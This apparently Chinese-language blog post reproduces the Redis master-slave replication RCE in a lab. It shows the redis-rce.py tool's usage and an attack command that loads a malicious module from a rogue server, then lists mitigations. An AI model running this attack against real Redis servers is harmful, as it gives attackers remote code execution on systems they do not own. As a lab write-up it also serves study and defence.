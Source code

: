 ```yaml
---
layout: post
title: "Redis-RCE 复现" 
subtitle: "Redis-RCE 复现"
date: 2019-07-12
author: ppbibo
category: security
---
```


[TOC]

**PS**：

很早之前复现过redis 未授权访问写shell 的案例[参考](https://www.freebuf.com/column/158065.html)

如今又出现了 Redis 主从复制 RCE  刚才在复现的时候一直卡在 [*] Tring to run payload 中 原因是因为两台机器必须处在公网的环境下或者本地代理也可以只要保证机器可以互PING保持通信。



## 0x1 漏洞影响范围：

   **Redis 2.x 3.x 4.x 5.x**



## 0x2 环境搭建

Redis 服务器：xxx.xxx.94.167

**Tag:** Redis 配置为外网可以访问，本人服务器为阿里云所以要登陆官网打开 6379 的端口访问权限

更改 redis.conf 配置文件

```
bind 127.0.0.1

protected-mode yes
```

更改为

```
# bind 127.0.0.1

protected-mode no
```

然后重启 redis 。

**RT**：

![redis-rce-1](/static/img/redis-rce-1.png)

## 0x2 复现漏洞

攻击机IP：xxx.xxx.43.169

[采用工具](https://github.com/Ridter/redis-rce) 帮助：

```bash
[root@admin redis-rce]# python3 redis-rce.py -h

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

 执行命令：

```bash
$ python3 redis-rce.py -r xxx.xxx.94.167 -p 6379 -L xxx.xxx.43.169 -f ./exp_lin.so
```

**RT:**

![redis-2](/static/img/redis-2.png)

**注意**: *攻击机 目标机要能互相通信，要么2个都在公网，要么2个都在内网，或者加个代理也是可以的。*



## 0x3 应急措施

1、官方目前没有发布相关补丁

2、 禁止外网访问 Redis（重启redis才能生效）

```bash
# 修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用。
bind 127.0.0.1
```

3、以低权限运行 Redis 服务（重启redis才能生效）

```bash
# 为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆。
groupadd -r redis && useradd -r -g redis redis
```

4、设置防火墙策略　　

```bash
如果正常业务中Redis服务需要被其他服务器来访问，可以设置iptables策略仅允许指定的IP来访问Redis服务。
```

[下载](/upload/redis-rce.zip)